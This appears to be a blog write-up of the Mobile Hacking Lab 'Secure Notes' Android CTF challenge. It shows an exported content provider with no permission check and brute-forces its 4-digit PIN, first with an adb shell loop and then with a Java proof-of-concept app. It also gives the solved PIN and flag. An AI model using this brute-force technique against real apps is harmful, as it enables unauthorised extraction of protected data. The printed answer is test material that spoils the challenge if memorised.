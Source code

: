 ```yaml
---
title:  "Mobile Hacking Lab Secure Notes Writeup"
date:   2024-01-22T16:32:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Secure Notes](https://www.mobilehackinglab.com/course/lab-secure-notes) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a pin submission screen and it accept maximum 4 digit pins. We need to find correct pin. Let's open apk with jadx to understand the app.

![](./assets/images_mhl_securenotes/manifest.png)

When we examine the manifest file, we see that we have one activity(MainActivity). Also we have one exported content provider without any permission definition. It means that any application can query data from this provider☠️ Lets start our analyze with MainActivity.

### MainActivity

![](./assets/images_mhl_securenotes/provider1.png)

When we entered a pin, application calls `querySecretProvider` method with entered pin value. This method creates the selection variable by appending the given pin value after the "pin=" string. After that it send queries to provider that's defines inside itself with `content://com.mobilehackinglab.securenotes.secretprovider` uri. If returned value is not null, it prints the returned data to screen. Let's continue with the content provider to understand what the hack is going on when we make queries to that.

### SecretDataProvider

![](./assets/images_mhl_securenotes/provider2.png)

Inside th onCreate method, app reads some values from `config.properties` file that stored in assets folder. As their names suggest(encryptedSecret, salt, iv, iteratonCount), these should be values ​​related to encryption.

```properties
# content of config.properties file

encryptedSecret=bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=
salt=m2UvPXkvte7fygEeMr0WUg==
iv=L15Je6YfY5owgIckR9R3DQ==
iterationCount=10000
```

![](./assets/images_mhl_securenotes/provider3.png)

When we query a data from content provider, this `query` method runs. It gets entered pin from "selection" variable that we send and sends this pin value to `decryptSecret` method.

![](./assets/images_mhl_securenotes/decrypt.png)

`decryptSecret` method uses given pin for generating a key and with that key it tries to decrypt encrypted string read from properties file. For finding a true pin, we can make bruteforce with 4 digit numbers. I tried it with adb with this script:
```bash
# https://stackoverflow.com/questions/27988069/query-android-content-provider-from-command-line-adb-shell
for i in {0001..9999}; do
    echo -n $i" ";adb shell content query --uri content://com.mobilehackinglab.securenotes.secretprovider --where pin=$i;
    
done
```

After big amount of time it gives a flag✨✨

![](./assets/images_mhl_securenotes/flag_adb.png)

```
pin: 2580
flag: CTF{D1d_y0u_gu3ss_1t!1?}
```

If you want to create an app for exploiting this vulnerability, here is my poc app code:

```java
//MainActivity
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Uri uri = Uri.parse("content://com.mobilehackinglab.securenotes.secretprovider");
        for(int i =0;i<10000;i++){
            String selection = "pin=" + String.format("%04d",i);
            Cursor cursor = getContentResolver().query(uri, null, selection, null, null);
            if(cursor != null){
                while (cursor.moveToNext()){
                    int index = Integer.valueOf(cursor.getColumnIndex("Secret"));
                    String result = cursor.getString(index);
                    Log.d("RESULT", i + " : " + result);
                }
            }
        }
    }
}
```
```xml
Add this lines to AndroidManifest.xml

<queries>
        <package android:name="com.mobilehackinglab.securenotes"></package>
</queries>
```

![](./assets/images_mhl_securenotes/app.png)

After amount of time, we see the flag🎉🎉🎉

Thanks for reading! See you in next writeups 👋🏻👋🏻